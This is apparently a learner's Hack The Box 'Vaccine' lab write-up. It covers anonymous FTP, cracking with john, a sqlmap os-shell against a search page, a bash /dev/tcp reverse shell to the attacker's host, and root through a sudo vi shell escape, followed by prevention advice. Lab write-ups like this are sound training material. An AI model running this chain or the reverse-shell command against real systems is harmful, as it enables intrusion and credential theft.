# Vaccine

## What HTB wants you to learn
The danger of anonymous FTP access with sensitive files left exposed,
and privilege escalation through misconfigured sudo permissions.

## What I did

1. Ran `ping <ip_addr>` to test connectivity.
2. Ran `nmap -Pn <ip_addr>` to scan for open ports and services.
   Discovered ports: 21 (FTP), 22 (SSH), 80 (HTTP).


   
3. Ran `ftp --help`, then `ftp anonymous@<ip_addr> -P 21` to attempt
   anonymous access to the FTP server. It worked. Using `ls`, I found
   a `backup.zip` file on the server.


   
4. Used `help` on the FTP server to find useful commands, then ran
   `binary` to switch to binary mode (prevents the file from
   corrupting during transfer). Ran `lcd /home/noir01/Downloads` to
   set my local download directory, then `get backup.zip` to pull
   the file. Confirmed it downloaded correctly with `ls`.


   
5. Tried `unzip backup.zip` , failed, the zip was password protected.
6. Ran `john --help` but found nothing directly useful for a
   password-protected zip. A Google search led me to `zip2john`.
   Ran `zip2john backup.zip > backup1.hash`, then cracked it with
   `john --wordlist=/usr/share/wordlists/rockyou.txt backup1.hash`.
   Password obtained: `741852963`.


   
7. Unzipped `backup.zip` with the cracked password and found an
   admin MD5 password hash inside. Saved it with
   `echo "obtained_hash" > md5_hash.txt`.
8. Cracked it with
   `john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt md5_hash.txt`,
   obtaining the admin password.


   
9. Logged into `http://<ip_addr>` with the admin credentials
   (`admin`, `qwerty789`). Noticed a search feature, searched "hello",
   and captured the session ID by inspecting the page's storage.


   
10. Ran `sqlmap --help` to review its options. Initial attempts to
    exploit the injection failed, I hadn't included the session
    cookie. Once I ran
    `sqlmap -u '<search-url>' --cookie="PHPSESSID=<session_id>" --os-shell`,
    it worked and gave me shell access.


    
11. Set up a listener on my machine with `nc -lvnp 4444`, then tried
    `nc <my_ip_addr> -p 4444` on the target for a reverse shell. It
    didn't connect, so I used
    `bash -c "bash -i >& /dev/tcp/<my_ip_addr>/4444 0>&1"` instead,
    which succeeded.
12. Attempted to stabilize the shell with the standard sequence:
    `python3 -c 'import pty; pty.spawn("/bin/bash")'`, `Ctrl+Z`,
    `stty raw -echo; fg` (on my machine), then `export TERM=xterm`.
13. Ran into two problems here: the connection kept timing out, and
    I couldn't get a fully stable shell despite the steps above. I
    worked around it and continued with the unstable shell.
14. Ran `sudo -l` to check what commands I could run with elevated
    privileges — it prompted for the admin password.
15. Navigated to `/var/www/html` to look for the user's password in
    public-facing web files. Found `dashboard.php` among the files. This was the main admin landing page.
16. Read it with `cat dashboard.php` . It contained the postgres user's password in
    plain text.


    
17. Tried `sudo -l` again, but the unstable shell wouldn't accept
    typed input. Worked around it with `echo "P@s5w0rd!" | sudo -S -l` (the `-S` flag reads the password from stdin instead). 
    This revealed the user could run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` with sudo.

    
18. Navigated to `/var/lib/postgresql/`, found `user.txt`, and read
    it with `cat` to get the user flag.


    
19. Since I now had the postgres password and SSH (port 22) was
    open, I connected with `ssh postgres@<target_ip_addr>` for a
    more stable shell than the reverse shell gave me.


    
20. To escalate to root, ran
    `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` (allowed as per step 17).
21. Inside vi, typed `:set shell=/bin/sh` then `:shell` to escape
    into a root-privileged terminal shell.
22. Navigated to `/root`, listed the directory, and read `root.txt`
    to get the root flag.


    

## Why it worked
- Anonymous access to the FTP server was permitted, with a
  `backup.zip` file left exposed on it.
- The passwords recovered (cracked with `john`) were common enough
  to exist in a breach/wordlist dictionary.
- The admin password hash was stored inside that exposed zip file.
- A low-privilege user was allowed to run a command (`vi`) with
  sudo.

## Prevention
- Disable anonymous FTP access, or ensure no sensitive files are reachable through it.
- Use unique, non-dictionary passwords, especially for
  administrative accounts.
- Avoid granting sudo access to programs (like text editors) that
  can spawn a shell.

## Reflection
This one took about three hours instead of the roughly one hour it
should have, mostly due to an unstable shell connection and an
initial sqlmap attempt that failed because I forgot to add the session
cookie. I also used a couple of Google searches (finding `zip2john`, privilege escalation, for instance) rather than solving it
entirely on my own. That knowledge feels only partly internalized
right now. I plan on revisiting these concepts like privilege escalation sometime.

